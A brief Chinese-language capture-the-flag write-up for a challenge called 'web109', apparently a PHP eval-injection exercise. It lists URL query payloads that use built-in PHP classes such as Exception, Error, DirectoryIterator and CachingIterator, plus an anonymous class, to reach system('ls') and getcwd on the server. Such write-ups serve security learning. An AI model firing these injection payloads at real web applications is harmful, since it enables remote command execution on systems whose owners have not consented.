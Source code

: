# web109
![](vx_images/140943049460493.png)

猜测可能需要用内置类的方法
使用带有::同string的类(将参数转换为字符,达到eval('转化后的字符'))代码执行的目的
```
?v1=DirectoryIterator&v2=system(ls)
?v1=Error&v2=system(ls)
?v1=CachingIterator&v2=system(ls)
?v1=Exception&v2=system(ls)

```

还有使用匿名类方法
```
?v1=class{ public function __construct(){ system('ls'); } };&v2=a
```
查看目录,在访问
?v1=FilesystemIterator&v2=getcwd